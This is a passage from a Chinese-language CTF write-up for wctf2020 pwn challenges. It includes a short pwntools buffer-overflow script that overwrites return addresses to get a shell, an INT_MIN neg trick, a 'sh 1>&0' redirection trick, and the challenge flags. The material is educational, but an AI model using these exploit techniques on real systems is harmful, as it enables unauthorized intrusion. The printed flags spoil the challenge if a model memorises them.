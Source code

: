 ```python
global_max_fast=0x3c67f8
codebase = 0x555555554000
def loginfo(what='',address=0):
	log.info("\033[1;36m" + what + '----->' + hex(address) + "\033[0m")

# todo here
p.recvuntil("\\ \n")
p.send('a'*(0x18+4)+p32(0x08048529)+p32(0x08048670))


p.interactive()
```

## number_game - 16 solves

>Author: ColdShield

flag:`wctf2020{Opc0de_neg_Is_StraNge}`

**程序分析**

![GnwtoV.png](https://s1.ax1x.com/2020/03/30/GnwtoV.png)

ps：这里v2是canary，前面两个程序都没有开启这个保护所以看不到

这里的意思大致就是输入一个int整数，两次判断`v1`是否小于零，都满足的话就给出一个shell，但是中间做了一次`v1=-v1`的操作

![GnwYd0.png](https://s1.ax1x.com/2020/03/30/GnwYd0.png)

这个操作是通过neg指令实现的，这里这个指令的操作是将eax按位求反然后+1，如果我们想要被操作之后的eax最高位仍未1（保持这个数为负），之前eax就只能是`1000000...0`，即最高位为1然后其余位全为0，这个数在4字节的表述下就是这样的

![GnwDy9.png](https://s1.ax1x.com/2020/03/30/GnwDy9.png)

用`scanf`输入这个数就可以满足了

## Closed - 10 solves

>Author: ColdShield

flag:`wctf2020{A_pr@ctical_Trick}`

**程序分析**

![GnwrLR.png](https://s1.ax1x.com/2020/03/30/GnwrLR.png)

这个题的目的就是想让你们学习一下什么是文件描述符还有输出重定位的知识（具体就自行百度吧）

这个程序虽然给出了shell，但是在之前关闭了进程标准输出`1`和标准错误输出`2`，所以getshell后自然也无法输出内容

这里介绍一个小trick：将标准输出重定位到标准输入`0`，也可以实现回显，具体见[这里](https://unix.stackexchange.com/questions/177228/behaviour-of-10-in-bash)

运行程序之后`sh 1>&0`即可实现回显
